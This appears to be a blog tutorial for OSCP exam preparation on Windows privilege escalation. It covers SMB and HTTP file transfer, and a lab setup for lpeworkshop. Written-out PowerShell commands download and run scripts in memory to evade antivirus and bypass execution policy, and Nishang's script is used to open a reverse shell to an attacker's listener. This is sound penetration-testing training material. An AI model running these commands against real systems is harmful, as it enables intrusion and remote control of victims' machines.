 ```yaml
---
title: OSCP Windows PrivEsc - Part 1
description: Windows Privilege Escalation for OSCP
categories: [oscp]
tags: [oscp, Offensive Security]
---
```


As stated in the [OSCP Review Post](/oscp/OSCP-Review), I came across many good resources for Linux Privilege Escalation but there were just a few for Windows. [lpeworkshop](https://github.com/sagishahar/lpeworkshop) being one of those, lacks a good walkthrough. In this writeup, we will take a look at file transfer over smb and http, how to migrate to PowerShell from a standard cmd shell and lpeworkshop setup.
{: .text-justify}

---
## File transfer over SMB

While there are numerous methods to transfer files from your host Kali to victim Windows, I found SMB to be the most reliable one. 
- Install impacket on your kali (It comes preinstalled most of the times, located at /usr/share/impacket/examples/).
- Start the SMB server by running `smbserver.py`:  
![image-center](/assets/images/oscp/1/smbshare.png)
This will share the `/tmp/smbshare` directory over smb as `myshare`.
- All the files inside `/tmp/smbshare` can now directly be accessed on the victim windows:  
![image-center](/assets/images/oscp/1/smbshare1.png)
- For more convenience, this SMB share can be  mounted directly on the windows as a drive:
	- Check currently mounted shares by running `net use`:
	- Mount your `myshare` as drive `Z` (or any other letter) using the command
	`net use Z: \\<IP>\myshare`
		![image-center](/assets/images/oscp/1/smbmount.png)
- Now, you can simply change dir to `Z` and browse the shared files as a drive on the victim system.  
![image-center](/assets/images/oscp/1/smbmount2.png)
- The mount can be disconnected with command `net use Z: /d` and deleted with `net use Z: /delete` once you are done with it.   
{: .text-justify}

Another easy way to transfer files is over http using python's SimpleHTTPServer or Apache. We will take a look at it and download files using PowerShell in the following section.
{: .text-justify}

---
## PowerShell

PowerShell provides an easy way to perform post exploitation and privilege escalation activities with the help of various PS modules. Two of the most useful modules that I came across were: [Nishang's Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) and [Powersploit's PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)   
{: .text-justify}

While most of the newer Windows OS have a functional antivirus monitoring and prohibiting the execution of programs from storage, PowerShell provides us with an option to bypass this and run programs directly from the memory. This can help us evade the antivirus and easily run exploits or post-exploitation scripts.
1. Share your files using python's `SimpleHTTPServer` or Apache.   
![image-center](/assets/images/oscp/1/http1.png)
2. On the victim's cmd shell, execute the command:
`powershell.exe -nop -ep bypass -c "iex ((New-Object Net.WebClient).DownloadString('http://<IP>/testfile'))"`
This downloads `testfile` and executes it in the memory.  
![image-center](/assets/images/oscp/1/http2.png)
{: .text-justify}

### Upgrading to PowerShell from cmd using Nishang

The `Invoke-PowerShellTcp.ps1` can be used to get an interactive Reverse or Bind PowerShell from the target. This script is able to connect to an attacker's netcat listener using -Reverse switch or an attacker's netcat can connect to this script Bind to a specific port on the victim when using -Bind switch. For this exercise, we are assuming that you already have access to the victim (web command injection or a cmd shell using eternalblue/any other exploit) and will look at how this cmd shell can be upgraded to an interactive reverse PowerShell.
{: .text-justify}

### Method 1: Using HTTP (Can evade Windows AV)

We will share our `Invoke-PowerShellTcp.ps1` over http, download it to the victim, and execute it inside memory to send a reverse PowerShell.
1. Start python's `SimpleHTTPServer` and copy the `Invoke-PowerShellTcp.ps1` to that directory.   
![image-center](/assets/images/oscp/1/httpps1.png)
2. Start netcat listener on your Kali (always prefer using standard ports such as 80,443,53 since they have less chances of being blacklisted on the victim's firewall).
3. On the victim, we can download and execute this script using command: `powershell.exe -nop -ep bypass -c "iex ((New-Object Net.WebClient).DownloadString('http://<IP>/Invoke-PowerShellTcp.ps1'));Invoke-PowerShellTcp -Reverse -IPAddress <IP> -Port <Port>"`   
![image-center](/assets/images/oscp/1/httpps2.png)
4. This sends an interactive reverse PowerShell to our kali on port 443:  
![image-center](/assets/images/oscp/1/httpps3.png) 
5. This script can also be used to setup a bind shell on the victim using `-Bind` switch but I preferred using reverse shells in the PWK lab.
{: .text-justify}

### Command breakdown

Let's see the breakdown:   
`powershell.exe -nop -ep bypass -c "<Command>"` : We are executing powershell using three arguments:
1. `-nop` or `NoProfile` : This option means that the currently active user’s profile will not be loaded.
2. `-ep bypass` or `-ExecutionPolicy Bypass` : Execution Policy restricts script execution on most systems on the default setting This can be overcome by giving Bypass value to the value of -ExecutionPolicy parameter. 
3. `-c` or `-Command` : This is used to specify a command to be executed.
	- `"iex ((New-Object Net.WebClient).DownloadString('http://<IP>/Invoke-PowerShellTcp.ps1'))` : This part of the command downloads the `Invoke-PowerShellTcp.ps1` file.
	- `Invoke-PowerShellTcp -Reverse -IPAddress <IP> -Port <Port>"` : These are the arguments passed to `Invoke-PowerShellTcp.ps1` module. More arguments or examples can be seen on Nishang's github.
	- Pro tip: you can append the `Invoke-PowerShellTcp -Reverse -IPAddress <IP> -Port <port>` to your `Invoke-PowerShellTcp.ps1`. Example:
		![image-center](/assets/images/oscp/1/Invoke-ps1.png)
	This way, your final command for reverse shell would just be downloading and invoking the module, you don't have to pass the arguments anymore. Final command:   
	`powershell.exe -nop -ep bypass -c "iex ((New-Object Net.WebClient).DownloadString('http://<IP>/Invoke-PowerShellTcp.ps1'))`
{: .text-justify}


### Method 2: Using SMB (Gets blocked by Windows AV)

While this method is convenient for sharing multiple files over smb, but since we are executing `Invoke-PowerShellTcp.ps1` from storage (drive Z), it has a good chance of getting blocked by the Windows Antivirus. 
1. On your Kali, copy `Invoke-PowerShellTcp.ps1` inside `myshare` and start the smbserver. 
2. Start netcat listener on Kali.
3. You can mount the smbshare as Z, change dir to Z, and execute the script with command:
`powershell.exe -nop -ep bypass -c "Import-Module .\Invoke-PowerShellTcp.ps1; Invoke-PowerShellTcp -Reverse -IPAddress <IP> -Port <Port>"`
![image-center](/assets/images/oscp/1/ps2.png)
(Note: I disabled windows AV for this exercise)
4. This sends a fully interactive PowerShell to our kali on port 443:  
![image-center](/assets/images/oscp/1/ps3.png)
{: .text-justify}

---

## lpeworkshop
For the setup, we need three things:
1. Windows 7/10
We can grab a free copy of Windows Evaluation versions directly from [Microsoft](https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/) or from [magnetikonline's github repo](https://github.com/magnetikonline/linux-microsoft-ie-virtual-machines). Prefer getting a Windows 7 as this workshop was developed and tested on a Windows 7 (SP1) x64 host. 
2. [Windows Exercises Setup Script](https://github.com/sagishahar/lpeworkshop/blob/master/lpe_windows_setup.bat)
3. [Tools for Windows Exercises](https://drive.google.com/file/d/1Lgg3HXXltB7ZD3F5YSbRl6FX7h_mPzFU/view?usp=sharing) (7z archive password: lpeworkshop)  
{: .text-justify}

[Note: Take a snapshot of the windows VM before starting the setup]  
The setup is fairly simple: Copy the lpe_windows_setup.bat script to VM and run it as an Administrator. A few exercises will not be setup (1,9,11,13) as those are platform specific and are not included in the setup script.
{: .text-justify}

In the next part, we will go through the exercises from lpeworkshop and see how we can identify and exploit the vulnerabilties with the help of `PowerUp.ps1` 

---
## Additional resources

- [Windows PrivEsc using powershell](https://hacknpentest.com/windows-privilege-escalation-using-powershell/)
- [lpeworkshop walkthrough by J3rryBl4nks](https://github.com/J3rryBl4nks/LPEWalkthrough)